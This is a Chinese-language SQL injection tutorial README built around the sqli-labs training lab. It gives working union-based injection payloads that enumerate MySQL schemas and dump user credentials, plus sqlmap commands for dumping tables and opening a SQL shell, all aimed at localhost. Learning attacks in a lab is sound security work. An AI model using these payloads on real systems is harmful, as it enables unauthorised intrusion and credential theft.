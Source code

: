 ## Some Tools ,Writeup or Labs About Sql-Injection
#### 1、sqlmap 
[sqlmapproject-sqlmap.zip](Tools/sqlmapproject-sqlmap.zip)

#### 2、sqli-labs
[sqli-labs.zip](Src/sqli-labs.zip)

#### 3、sqlli-labs参考WP
[sqli-labs参考.pdf](Book/sqli-labs参考.pdf)

#### 4、sqlmap教程参考WP
[sqlmap教程.pdf](Book/sqlmap教程.pdf)

## 简单入门
### 一、Introduction
Sqli-labs是一个印度程序员写的，用来学习sql注入的一个游戏教程
官方地址传送门 [https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)
至于环境搭建，可以通过docker部署一下或者phpStudy本地部署一下[http://phpstudy.php.cn/](http://phpstudy.php.cn/),部署详情可参照本书(p3)[https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqli-labs参考.pdf](https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqli-labs%E5%8F%82%E8%80%83.pdf)。
<!--more-->
### 二、通过sqli-labs-Less-1 学习一些基本mysql操作
在环境搭建好之后我们能看到每个题目都有一个描述把本题的考点指出，这也意味着降低了我们的难度
![](image/Sqli-Labs-Sqlmap-基础篇/1.png)
#### Less-1
**hint**:GET-Error based-Single quotes-String

**Hack**:
1、进入后要求GET传入一个id
![](image/Sqli-Labs-Sqlmap-基础篇/2.png)
2、每传入一个id屏幕上显示不同的name和password
![](image/Sqli-Labs-Sqlmap-基础篇/3.png)
3、传入一个单引号试探注入点，发现报错
```
.....  syntax to use near ''1'' LIMIT 0,1' at line 1...

```
思考为什么会出现`''1'' LIMIT 0,1'`,最外面一组单引号是报错的显示，所以在sql语句中应该是`'1'' LIMIT 0,1`,其实`1'`是我们传的参数，所以大致能猜测到访问数据库语句为
```
SELECT name,Password FROM users WHERE id='$id' LIMIT 0,1
```
4、过程
首先为了sql注入，我们需要拿一个`'`来截断 `id='$id'`，并且在末尾添加#或者--+来注释，（注意url中遇到空格，#等字符需要url编码一次）,比如我们可以输入`1 'union select name,Password FROM users #`（当然现在还不知道数据库名和字段），另外本题应该只展示拿到的第一个数据。
```
SELECT name,Password FROM users WHERE id='1'union select name,Password FROM users # ' LIMIT 0,1;
```
![](image/Sqli-Labs-Sqlmap-基础篇/4.png)

5、基本知识储备
当我们不知道数据库名，表名字段名时，需要去爆库，原理其实就是MySQL版本大于5.0时，有个默认数据库information_schema，里面存放着所有数据库的信息(比如表名、 列名、对应权限等)，通过这个数据库，我们就可以跨库查询，爆表爆列。
爆库的标准姿势
```
select schema_name from information_schema.schemata;     //猜数据库

select table_name from information_schema.tables where table_schema='xxxxx';     //猜某数据库的数据表

Select column_name from information_schema.columns where table_name='xxxxx';     //猜某表的字段名
```
在mysql中可以直接拿数字作为order by或者group by的参数,但是数字一定要小于我们拿出来的列数否者报错
![](image/Sqli-Labs-Sqlmap-基础篇/5.png)
另外concat()能将一些字符串连接一个字符串适用于一条数据,group_concat()能够将一张表的数据的一些数据分组合并起来，适用性比较广
6、所以本题基本payload,先通过传id=-1让第一句为空，展示出第二句
首先看sql语句中拿了多少列数据
```
1' order by 3%23    //不报错
1' order by 4%23    //报错
```
所以大概有3列数据，一般能想得到多拿了一个id，所以我们可以通过，第二列第三列数据拿到信息
首先爆数据库有哪些
```
-1' union select 1,2,group_concat(schema_name) from information_schema.schemata%23
```
![](image/Sqli-Labs-Sqlmap-基础篇/6.png)
拿到五个数据库`information_schema,challenges,mysql,performance_schema,security`
现在查询security数据库哪些表
```
-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
```
拿到`emails,referers,uagents,users`
现在查询users的所有字段
```
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
```
拿到`id,username,password`
最后可以拿到所有人的账号密码
```
-1' union select 1,group_concat(username),group_concat(password) from users%23
```
![](image/Sqli-Labs-Sqlmap-基础篇/7.png)
### 三、sqlmap使用
sqlmap是基于python2.6/2.7的，所以推荐大家拿virtualenv搭建py2.7虚拟环境,保不定以后有用,教程[https://kit4y.github.io/2018/12/20/win10-环境下使用virtualenv搭建py虚拟环境/](https://kit4y.github.io/2018/12/20/win10-环境下使用virtualenv搭建py虚拟环境/)，Sqlmap是开源的自动化SQL注入工具,当然这是在于自己手注不进去的时候可以参考一下，github地址为[https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)，功能参考书[https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqlmap教程.pdf](https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqlmap%E6%95%99%E7%A8%8B.pdf)
#### 一些常用使用命令
##### 1、是否能注入
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"
```
##### 2、获取所有的数据库
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --dbs
```
##### 3、当前库
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --current-db
```
##### 4、查询某数据库的所有表（比如security）
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"  -D security --tables
```
##### 5、暴力查询所有的表
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   --tables
```
##### 6、列出security库中users表中的所有列
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   -D security -T users --columns
```
(-D dbname指定数据库名称、-T tablename：指定某数据表的名称、--columns：列出指定表上的所有列)
##### 7、导出三个数据列中所有的数据
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   -D security -T users -C id,username,password --dump
```
##### 8、提供一个sql shell
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --sql-shell
```

[下一篇-2~6题详解](README2.md)


更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)